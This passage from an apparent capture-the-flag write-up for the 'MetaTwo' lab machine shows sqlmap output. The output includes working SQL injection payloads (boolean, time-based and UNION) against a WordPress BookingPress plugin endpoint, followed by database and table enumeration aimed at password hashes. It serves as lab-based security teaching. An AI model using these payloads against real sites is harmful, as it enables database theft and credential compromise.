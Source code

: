 [14:22:28] [INFO] POST parameter 'total_service' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[14:22:28] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:22:28] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:22:30] [INFO] target URL appears to be UNION injectable with 9 columns
[14:22:30] [INFO] POST parameter 'total_service' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[14:22:30] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'total_service' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 113 HTTP(s) requests:
---
Parameter: total_service (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=-8156) OR 5081=5081-- tPXv

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=35) AND (SELECT 1109 FROM (SELECT(SLEEP(5)))swTx)-- ZRxp

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=35) UNION ALL SELECT NULL,CONCAT(0x716a6b6b71,0x4d774f774d6e4743426574644f74575a4d656257414b696771634151414866424d44465450446245,0x71717a7a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[14:22:30] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0, PHP 8.0.24
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:22:30] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/metapress.htb'

[*] ending @ 14:22:30 /2023-04-22/

{% endhighlight %}

After searching around we find password hashes in the table wp-users in database blog

{% highlight console  %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$  sqlmap -r requests.txt --dbs -v 0
...
web application technology: Nginx 1.18.0, PHP 8.0.24
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
available databases [2]:
[*] blog
[*] information_schema

┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$  sqlmap -r requests.txt --tables -D blog -v 0
...
[27 tables]
+--------------------------------------+
| wp_bookingpress_appointment_bookings |
| wp_bookingpress_categories           |
| wp_bookingpress_customers            |
| wp_bookingpress_customers_meta       |
| wp_bookingpress_customize_settings   |